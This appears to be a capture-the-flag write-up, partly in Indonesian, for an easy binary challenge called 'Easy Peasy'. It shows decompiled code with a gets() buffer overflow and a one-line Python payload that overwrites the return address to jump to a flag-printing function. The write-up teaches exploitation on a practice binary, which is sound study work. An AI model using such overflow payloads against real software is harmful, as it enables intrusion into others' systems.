 # Easy Peasy

> A super secret piece of information has been hidden behind a program made by 1337 hackers. Find this crucial piece of information
> Author: Anand Rajaram

Tags: binary
Difficulty: easy
Points: 100

function main

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx

  puts("Please enter the super secret password to display the flag:", argv, envp);
  fflush(stdout);
  vuln();
  puts("Invalid password, try again\n", argv, v3);
  return 0;
}
```

function vuln

```
__int64 vuln()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  return gets(v1);
}
```

function win

```
__int64 win()
{

  v9 = fopen64("flag.txt", &unk_498008);
  if ( !v9 )
  {
    printf(
      (unsigned int)"%s %s",
      (unsigned int)"Please create 'flag.txt' in this directory with your",
      (unsigned int)"own debugging flag.\n",
      v0,
      v1,
      v2,
      v8[0]);
    exit(0LL);
  }
  fgets(v8, 64LL, v9);
  return printf((unsigned int)v8, 64, v3, v4, v5, v6, v8[0]);
}
```

berikut alamat dari fungsi win yang mencetak flag

![](https://github.com/muhammadhendro/CTF-Writeups/blob/master/2023/DeconstruCT.F%202023/Easy%20Peasy/1.png)

```
python -c "import sys; import struct; sys.stdout.buffer.write(b'A'*40 + struct.pack('<Q', 0x00000000004017ea))" | ./ezpz
```
